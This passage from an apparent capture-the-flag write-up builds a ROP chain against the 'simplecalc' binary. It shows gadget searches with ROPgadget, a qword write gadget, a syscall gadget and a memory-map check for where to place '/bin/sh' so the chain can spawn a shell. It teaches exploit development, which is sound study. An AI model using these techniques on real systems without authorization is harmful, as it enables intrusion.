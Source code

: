 ```
$ python3 ROPgadget.py --binary simplecalc | grep "pop rdi ; ret"
0x000000000044bbbc : inc dword ptr [rbx - 0x7bf0fe40] ; pop rdi ; ret
0x0000000000401b73 : pop rdi ; ret
$ python3 ROPgadget.py --binary simplecalc | grep "pop rsi ; ret"
0x00000000004ac9b4 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rsi ; ret
0x00000000004ac9b6 : add byte ptr [rax], al ; pop rsi ; ret
0x0000000000437aa9 : pop rdx ; pop rsi ; ret
0x0000000000401c87 : pop rsi ; ret
$ python3 ROPgadget.py --binary simplecalc | grep "pop rdx ; ret"
0x00000000004a868c : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rdx ; ret 0x45
0x00000000004a868e : add byte ptr [rax], al ; pop rdx ; ret 0x45
0x00000000004afd61 : js 0x4afde1 ; pop rdx ; retf
0x0000000000414ed0 : or al, ch ; pop rdx ; ret 0xffff
0x0000000000437a85 : pop rdx ; ret
0x00000000004a8690 : pop rdx ; ret 0x45
0x00000000004b2dd8 : pop rdx ; ret 0xfffd
0x0000000000414ed2 : pop rdx ; ret 0xffff
0x00000000004afd63 : pop rdx ; retf
0x000000000044af60 : pop rdx ; retf 0xffff
0x00000000004560ae : test byte ptr [rdi - 0x1600002f], al ; pop rdx ; ret
```

So we can see the gadgets for controlling the four registers are at `0x44db34`, `0x401b73`, `0x401c87`, and `0x437a85`. Now we need a gadget that will write an eight byte value to a memory region. For this I would like to start my search by searching through the gadgets with `mov` in them:

```
$ python3 ROPgadget.py --binary simplecalc | grep "mov" | less
```

after a bit of searching, we find this gadget:

```
0x000000000044526e : mov qword ptr [rax], rdx ; ret
```

This gadget will move the four byte value from `rdx` to whatever memory is pointed to by `rax`. This is exactly what we need, and a bit convenient since we already have the gadgets for those two registers and this gadget doesn't do anything else that we need to worry about. The last gadget we need will be a `syscall` gadget:

```
$ python3 ROPgadget.py --binary simplecalc | grep ": syscall"
0x0000000000400488 : syscall
```

There are two more things we need to figure out. The first is where in memory we will write the string `/bin/sh`. Let's check the memory mappings while the binary is running:

```
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x00000000004c1000 0x0000000000000000 r-x /Hackery/pod/modules/bof_static/bkp16_simplecalc/simplecalc
0x00000000006c0000 0x00000000006c3000 0x00000000000c0000 rw- /Hackery/pod/modules/bof_static/bkp16_simplecalc/simplecalc
0x00000000006c3000 0x00000000006c6000 0x0000000000000000 rw-
0x0000000001971000 0x0000000001994000 0x0000000000000000 rw- [heap]
0x00007fffbde39000 0x00007fffbde5a000 0x0000000000000000 rw- [stack]
0x00007fffbdfe6000 0x00007fffbdfe9000 0x0000000000000000 r-- [vvar]
0x00007fffbdfe9000 0x00007fffbdfeb000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
gef➤  x/g 0x6c0000
0x6c0000: 0x200e41280e41300e
gef➤  x/20g 0x6c0000
0x6c0000: 0x200e41280e41300e  0x0e42100e42180e42
0x6c0010: 0x00000000000b4108  0x0000d0a40000002c
0x6c0020: 0x0000006cfffd1fd0  0x080e0a69100e4400
```
